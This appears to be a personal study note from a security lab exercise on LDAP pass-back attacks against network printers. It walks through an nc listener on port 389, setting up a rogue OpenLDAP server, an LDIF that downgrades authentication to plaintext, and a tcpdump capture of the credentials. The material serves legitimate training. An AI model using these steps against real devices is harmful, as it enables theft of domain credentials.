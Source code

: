 #cybersecurity 

Lightweight Directory Access Protocol.
Authentication similar to [[NTLM]]
Here the application directly verifies the user's credential.

Popular mechanism:

- Gitlab
- Jenkins
- Custom-developed web applications
- Printers
- VPNs

![[Pasted image 20240902103729.png]]

### LDAP Pass-back Attacks
Common attack against network devices, such as printers.
It can be performed when we gain access to a device's configuration where the LDAP parameters are specified. They usually are default.
We can alter the LDAP configuration , such as the IP or hostname of the LDAP server.
In the Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration.


### Performing LDAP Pass-back
Network Printer
![[Pasted image 20240902104651.png]]

We have the username, but not the password
We can see that an authentication request is made to the domain controller to test the LDAP credentials
Let's try to exploit this to get the printer to connect to us instead.

```bash
nc -lvp 389 #default LDAP port
listening on [any] 389 ... 10.10.10.201: inverse host lookup failed: Unknown host connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765 0?DC?; ? ?x objectclass0?supportedCapabilities
```

The `supportedCapabilities` response tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details
It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext.
We need to create a rogue LDAP server.

### Hosting a Rogue LDAP Server
We will use OpenLDAP
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

Now we configure our own LDAP
```bash
sudo dpkg-reconfigure -p low slapd
```

![[Pasted image 20240902113357.png]]

![[Pasted image 20240902113401.png]]

![[Pasted image 20240902113405.png]]

![[Pasted image 20240902113413.png]]

![[Pasted image 20240902113419.png]]

![[Pasted image 20240902113423.png]]

![[Pasted image 20240902113427.png]]


We need to make it vulnerable by downgrading the supported authentication mechanisms, we want to ensure that our LDAP only supports PLAIN and LOGIN authentication methods.
To do this we create a new ldif file with this content
```
#olcSaslSecProps.ldif 
dn: cn=config 
replace: olcSaslSecProps 
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- **olcSaslSecProps:** Specifies the SASL security properties
- **noanonymous:** Disables mechanisms that support anonymous login
- **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

```bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

### Capturing LDAP credentials
Now we can click Test settings with our IP

If we receive the error "This distinguished name contains invalid syntax" we can take the credentials with this command

```bash
sudo tcpdump -SX -i breachad tcp port 389
```